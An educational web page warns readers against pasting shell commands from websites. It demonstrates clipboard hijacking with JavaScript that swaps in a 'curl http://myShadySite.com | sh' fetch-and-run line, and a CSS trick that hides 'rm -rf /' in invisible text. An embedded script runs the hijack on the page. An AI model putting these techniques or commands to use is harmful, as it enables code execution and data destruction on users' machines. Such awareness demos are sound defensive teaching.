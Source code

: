 

# Don't Copy Paste Into A Shell

When you see a shell command on the Internet, do not copy it into your terminal.

Modern JavaScript Clipboard APIs allow a website to trivially overwrite what you put inside your clipboard, without the user's confirmation or permission.


Here is an example of how easy it is to perform this attack. Imagine that the red text below is a shell command you want to use. Below that is a `textarea` for you to simulate pasting into your shell.


<p id="copyme" style="background-color:#ffcccb;padding:5px;border:1px dashed red;">$ echo "looks safe to me!"</p>

<textarea style="width: 100%"></textarea>


Note that you don't even have to press ENTER in your terminal after pasting for the exploit to happen. The payload conveniently contains a trailing newline that does that for you!

Here is the JavaScript that is performing the exploit.

```
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

In addition, disabling JavaScript will not save you! A pure CSS exploit exists as well.

<p id="copyme-css" style="background-color:#ffcccb;padding:5px;border:1px dashed red;">$ echo <span style="font-size: 0;">; rm -rf / ; echo </span> "looks safe to me!"</p>

<textarea style="width: 100%"></textarea>

```
$ echo <span style="font-size: 0;">; rm -rf / ; echo </span> "looks safe to me!"
```


<script>
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 'echo "this could have been [curl http://myShadySite.com | sh]"\n');
    e.preventDefault();
});
</script>